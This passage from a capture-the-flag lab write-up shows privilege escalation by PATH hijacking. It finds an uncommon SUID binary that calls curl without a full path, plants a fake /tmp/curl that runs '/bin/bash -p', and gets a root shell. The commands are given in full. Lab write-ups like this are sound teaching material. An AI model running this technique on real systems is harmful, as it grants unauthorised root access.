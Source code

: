 # Privilege escalation
## SUID and PATH hijacking
Looking for *SUID* files, I found an interesting uncommon binary
```shell
find / -type f -perm -4000 -ls 2>/dev/null
```
![Pasted image 20241210080144.png](/img/user/attachments/Pasted%20image%2020241210080144.png)
This binary executes curl 
![Pasted image 20241210080251.png](/img/user/attachments/Pasted%20image%2020241210080251.png)
Checking the code, it is executing code without using the complete path.
```shell
strings /opt/statuscheck
```
![Pasted image 20241210080503.png](/img/user/attachments/Pasted%20image%2020241210080503.png)
We can exploit this failure
Create an executable file name *curl* on the *tmp* folder that content the code that we want to execute, in this case `/bin/bash -p`
```shell
echo "/bin/bash -p" > /tmp/curl; ; chmod +x /tmp/curl
```
Change the PATH to point first the */tmp* folder
```shell
export PATH=/tmp:$PATH
```
Execute the binary and get the root shell
```shell
/opt/statuscheck
```
![Pasted image 20241210081027.png](/img/user/attachments/Pasted%20image%2020241210081027.png)

> [!check] Root flag
> ![Pasted image 20241210081148.png](/img/user/attachments/Pasted%20image%2020241210081148.png)

---